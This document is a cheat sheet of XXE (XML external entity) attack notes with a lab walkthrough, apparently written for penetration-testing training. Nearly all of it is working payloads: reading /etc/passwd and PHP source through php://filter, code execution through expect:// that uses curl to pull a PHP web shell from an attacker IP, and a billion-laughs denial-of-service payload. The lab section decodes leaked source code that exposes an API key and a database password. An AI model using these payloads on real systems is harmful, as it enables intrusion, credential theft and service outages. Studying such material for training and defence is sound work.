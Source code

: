 # Local File Disclosure

## Identifying

- Find web pages that accept an XML user input
- Try a legit request and analyze the content using Burp
- Note which elements are being displayed --> elements to inject into
- Define a new entity and then use it as a variable in the injectable element

If email is the injectable element

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
...
<email>
    &company;
</email>

XXE Vulnerable appliation will display : Inlane Freight
XXE Non-Vulnerable application will display : &company;

- Try to change Content-Type header to application/xml
or convert from JSON to XML : https://www.convertjson.com/json-to-xml.htm

## Reading Sensitive Files

<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>

## Reading Source Code PHP

<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>

## Remote Code Execution with XXE

echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80

<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>

--> Replace all spaces in the above XML code with $IFS, to avoid breaking the XML syntax

--> This requires the PHP expect module to be installed and enabled (not by default on modern PHP websites)

## Other XXE Attacks

--> Denial of service

<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>

Modern web servers (e.g., Apache) protect against entity self-reference

## LAB

<?xml version="1.0" encoding="UTF-8"?>
<root>
<name>a</name>
<tel></tel>
<email>test@test.com</email>
<message>a</message>
</root>

Response :

Check your email test@test.com for further instructions.

--> email is the injectable parameter

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
<root>
<name>a</name>
<tel></tel>
<email>&company;</email>
<message>a</message>
</root>

Check your email PD9waHAKCiRhcGlfa2V5ID0gIlVUTTFOak0wTW1SekoyZG1jVEl6TkQwd01YSm5aWGRtYzJSbUNnIjsKCnRyeSB7CgkkY29ubiA9IHBnX2Nvbm5lY3QoImhvc3Q9bG9jYWxob3N0IHBvcnQ9NTQzMiBkYm5hbWU9dXNlcnMgdXNlcj1wb3N0Z3JlcyBwYXNzd29yZD1pVWVyXnZkKGUxUGw5Iik7Cn0KCmNhdGNoICggZXhjZXB0aW9uICRlICkgewogCWVjaG8gJGUtPmdldE1lc3NhZ2UoKTsKfQoKPz4K for further instructions.

echo -n 'PD9waHAKCiRhcGlfa2V5ID0gIlVUTTFOak0wTW1SekoyZG1jVEl6TkQwd01YSm5aWGRtYzJSbUNnIjsKCnRyeSB7CgkkY29ubiA9IHBnX2Nvbm5lY3QoImhvc3Q9bG9jYWxob3N0IHBvcnQ9NTQzMiBkYm5hbWU9dXNlcnMgdXNlcj1wb3N0Z3JlcyBwYXNzd29yZD1pVWVyXnZkKGUxUGw5Iik7Cn0KCmNhdGNoICggZXhjZXB0aW9uICRlICkgewogCWVjaG8gJGUtPmdldE1lc3NhZ2UoKTsKfQoKPz4K' | base64 -d 

<?php

$api_key = "UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg";

try {
	$conn = pg_connect("host=localhost port=5432 dbname=users user=postgres password=iUer^vd(e1Pl9");
}

catch ( exception $e ) {
 	echo $e->getMessage();
}

?>
